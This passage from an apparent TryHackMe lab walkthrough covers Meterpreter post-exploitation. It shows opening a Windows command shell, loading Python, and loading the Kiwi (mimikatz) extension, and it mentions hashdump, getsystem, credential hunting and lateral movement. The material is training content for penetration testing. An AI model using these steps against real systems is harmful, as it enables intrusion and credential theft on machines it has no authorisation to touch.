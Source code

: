 
Shell

The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.
The shell command

           
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

        

*No answer needed*

###  Post-Exploitation Challenge 

Meterpreter provides several important post-exploitation tools.

Commands mentioned previously, such as getsystem and hashdump will provide important leverage and information for privilege escalation and lateral movement. Meterpreter is also a good base you can use to run post-exploitation modules available on the Metasploit framework. Finally, you can also use the load command to leverage additional tools such as Kiwi or even the whole Python language.
Loading Python

           
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >

        


The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

    Gathering further information about the target system.
    Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
    Privilege escalation.
    Lateral movement.

Once any additional tool is loaded using the load command, you will see new options on the help menu. The example below shows commands added for the Kiwi module (using the load kiwi command).
Loading Kiwi

           
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
